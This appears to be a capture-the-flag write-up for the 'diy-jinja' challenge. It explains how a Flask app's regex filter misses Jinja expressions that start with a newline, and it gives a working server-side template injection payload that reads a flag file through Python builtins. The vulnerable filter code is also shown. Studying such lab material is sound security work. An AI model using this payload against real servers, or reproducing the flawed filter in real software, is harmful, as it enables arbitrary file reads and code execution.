 # 10 - diy-jinja

## Description

Level: Medium<br/>
Author: coderion

We've heard you like to create your own forms. With **SANTA** (Secure and New Template Automation), you can upload your
own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100%
secure and even with anti-tampering protection!

## Solution

For this challenge we are given a remote website as well as its source in [a ZIP file](diy-jinja-source.zip).
We can upload a Jinja template and then send data to that template to render it. The website looked like this:

![template upload form for HV10](template_upload.png)

The template upload logic is pretty straight forward:

```python
@app.route("/upload", methods=["POST"])
def upload_template():
    message = request.files["template"]
    fields_data = request.form["fields"]
    fields = json.loads(fields_data)

    template_id = str(uuid.uuid4())
    template_path = os.path.join(
        app.config["TEMPLATES_FOLDER"], secure_filename(template_id + ".html")
    )
    tmp_path = os.path.join(
        app.config["TEMPLATES_FOLDER"], str(uuid.uuid4())
    )
    message.save(tmp_path)

    # Prevent any injections
    jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
    for obj in jinja_objects:
        if not re.match(r"^[a-z ]+$", obj):
            # An oopsie whoopsie happened
            return Response(
                f"Upload failed for {tmp_path}. Injection detected.", status=400
            )

    # If file is injection-free, save it
    os.rename(tmp_path, template_path)
    with open(
            os.path.join(app.config["TEMPLATES_FOLDER"], f"{template_id}_form.html"), "w"
    ) as f:
        f.write(
            render_template(
                "form_template.html", fields=fields, template_id=template_id
            )
        )

    return redirect(url_for("render_form", template_id=template_id))
```

Our goal is to inject some Jinja code via the template upload function to get RCE. The deadly bug can be seen here:

```python
# Prevent any injections
jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
for obj in jinja_objects:
    if not re.match(r"^[a-z ]+$", obj):
        ...
```

The problem with this code is that it only detects injections of the form `{{...}}`. Consider the case where there's a
newline after the opening braces. That wouldn't match the outer regex, essentially giving us RCE. This template uses
this exact bug:

```html
<!doctype html>
<html lang="en">
<body>
{{
request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
</body>
</html>
```

The template executes the python code which loads the `flag.txt`
file. [This website was useful when looking for the right payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti).
Uploading the template and visiting it, gives the flag: `HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`.
